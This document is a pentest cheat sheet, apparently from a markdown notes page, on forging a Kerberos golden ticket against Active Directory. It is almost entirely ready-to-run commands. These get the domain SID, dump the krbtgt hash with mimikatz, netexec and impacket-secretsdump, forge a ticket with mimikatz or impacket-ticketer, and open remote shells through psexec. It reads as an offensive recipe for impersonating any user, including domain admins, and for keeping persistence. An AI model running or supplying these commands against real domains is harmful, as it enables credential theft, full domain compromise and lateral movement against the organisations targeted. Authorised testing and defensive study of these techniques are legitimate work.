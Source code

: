 ```yaml
---
tags:
  - Authenticated
  - Kerberos
  - Persistence
  - AD
---
```

forge a Kerberos Ticket Granting Ticket (TGT) with using a domain's KRBTGT account hash, allowing an attacker to impersonate any user including domain admins without needing their credentials.

#### **Get domain SID**
locally:
```powershell
(Get-ADDomain).DomainSID
```
```batch
whoami /user # (domain SID is the part before the last hyphen (RID).)
```
remotely:
```
nxc ldap <target> -u <user> -p <pass> --sid
```
#### **Get krbtgt account hash**
locally - mimikatz
```bash
lsadump::lsa /inject /name:krbtgt
```
remotely - nxc
```bash
nxc smb >ip> --local-auth -u '' -p '' --lsa --user krbtgt
nxc smb <dcip> --local-auth -u '' -p '' --ntds --user krbtgt
```
remotely - secretsdump
```bash
impacket-secretsdump user:pass@10.0.0.35
```
#### **Generate ticket**
**with mimikatz**
```
kerberos::golden /User:Administrator /domain:domain.local /sid:<SID> /krbtgt:<krbtgt hash> /id:500 /ptt
```
spawn shell with ticket
```powershell
misc::cmd
```
Now we can use psexec for a shell anywhere
```powershell
psexec.exe  -accepteula \\hostname cmd.exe
```
**With impacket**
```bash
impacket-ticketer -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
# OR with aes
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```
set ticket env var
```
export KRB5CCNAME=<TGS_ccache_file>
```
Then you can access anything
```bash
impacket-psexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
